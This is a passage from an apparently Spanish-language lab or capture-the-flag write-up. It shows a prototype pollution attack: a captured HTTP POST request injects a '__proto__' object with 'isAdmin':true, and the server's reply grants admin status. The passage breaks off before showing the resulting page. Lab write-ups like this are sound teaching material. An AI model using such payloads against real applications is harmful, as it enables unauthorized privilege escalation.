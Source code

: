 Veremos que se esta añadiendo correctamente y a parte estamos viendo que esta realizando una validacion de si es `admin` o no en el parametro `"isAdmin":false`, vamos a probechar eso sabiendo que esta ese parametro y que podemos modificarlo de la siguiente forma:

Vamos a volver a capturar la peticion y hacer esto:

```
POST /dashboard.php HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/dashboard.php
Content-Type: application/json
Content-Length: 37
Origin: http://app.dl
Connection: keep-alive
Cookie: PHPSESSID=neokpt9n1876qjdr7j946q5kl2
Priority: u=0

{
    "username": "user",
    "password": "user123",
    "__proto__":{ 
	    "isAdmin":true 
	}
}
```

Y veremos que nos responde con esto:

```
HTTP/1.1 200 OK
Date: Wed, 12 Mar 2025 13:24:03 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 69
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{
    "username": "user",
    "password": "user123",
    "isAdmin":true
}
```

Ahora si nos vamos a la pagina veremos lo siguiente:
